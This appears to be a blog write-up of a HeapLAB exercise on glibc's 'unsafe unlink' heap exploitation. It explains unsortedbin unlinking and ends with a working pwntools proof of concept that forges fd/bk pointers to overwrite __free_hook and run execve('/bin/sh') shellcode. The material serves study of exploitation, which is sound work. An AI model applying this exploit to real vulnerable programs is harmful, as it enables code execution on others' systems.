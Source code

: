 ```yaml
---
layout: post
title:  "HeapLAB 1 - Unsafe Unlink"
date:   2022-12-07 20:00:01 +0300
categories: jekyll update
---
```


**Contents**
* TOC
{:toc}
## General

`fastbin dup` and `tcache dup` techniques are only relevant for small chunks, that meet `size < 0x80`. \

Another bin, the `unsortedbin`, is relevant for larger allocations - and can be used for various unlink corruption techniques. 

## Exploitation

Old GLIBC versions used a simple macro, without any integrity checks, to unlink a chunk from an `unsortedbin`. \
This technique is called `unsafe unlink`. 

Chunks are considered `small` if their size is less than `0x400`. 

We're given a binary, that allows 2 `malloc` allocations. \ 
I can perform an allocation of two chunks of size `0x88` (so they will be within the `unsortedbin` size), and free the first allocated chunk. \
Recall that freeing the second-allocated chunk would lead to coalescing with the `top_chunk`. 

A trick to view the main heap layout:

```bash
pwndbg> dq mp_.sbrk_base
```

A cool technique is overwriting the `PREV_INUSE` flag of certain chunk, hence treating the previous allocated chunk as a free, which makes it a consolidation candidate. 

Recall that upon consolidation, Malloc first *unlinks the candidate chunk from its bin*, even if the coalescing can be made without any unlinking (not trivial). \
This is because of the de-allocation policy - the newly freed chunk must be added towards the head of the bin. \
Therefore, the candidate is the one being added to the newly freed chunk, creating a large free chunk that is stored within the bin's head.


It basically means the following for chunk `A`:

```c
(A->bk)->fd = A->fd; 
(A->fd)->bk = A->bk;
```

Meaning:

```c
*((A->bk) + 0x10) = A->fd;
*((A->fd) + 0x18) = A->bk;
```

We can also write these rules in a more explicit form, however it might be confusing:

```c
*(*(A + 0x18) + 0x10) = *(A + 0x10)
*(*(A + 0x10) + 0x18) = *(A + 0x18)
```

In case I'd pick the following:

```c
(A->fd) + 0x18 = __free_hook_libc_addr; // A->fd = __free_hook_libc_addr - 0x18
(A->bk) = shellcode_heap_addr; 
```

It implies that `shellcode_heap_addr + 0x10` must be a writeable memory. This may limit our shellcode size to 16 bytes.

The other choice:

```c
(A->bk) + 0x10 = __free_hook_libc_addr; // A->bk = __free_hook_libc_addr - 0x10
(A->fd) = shellcode_heap_addr
```

It implies that `shellcode_heap_addr + 0x18` must be a writeable memory. This is much better, and gives us 8 crucial bytes. 

Note - the shellcode size limitation can be easily bypassed, by adding a `jmp <OFFSET_OF_AT_LEAST 16+8 BYTES>` at the start of the shellcode.

Full POC:

```python
# Prepare execve("/bin/sh") shellcode with a jmp over where the fd will be written.
shellcode = asm("jmp shellcode;" + "nop;"*0x30 + "shellcode:" + shellcraft.execve("/bin/sh"))

chunk_a = malloc(0x88)
chunk_b = malloc(0x88)

fd = p64(heap + 0x20)
bk = p64(libc.sym.__free_hook - 0x10)
prev_size = p64(0x90)
fake_size = p64(0x90)  # clears the PREV_INUSE bit
edit(chunk_a, fd + bk + shellcode + b"A"*(0x70-len(shellcode))+ prev_size + fake_size)

# Overwrite __free_hook via unsafe unlink
free(chunk_b)

# Trigger __free_hook
free(chunk_a)
```

This exploit uses the `backward consolidation` - as the fake `fd, bk` held within the chunk preceding the chunk being freed. \
There is also a `forward consolidation` variant, where the fake `fd, bk` reside within the succeeding chunk. 

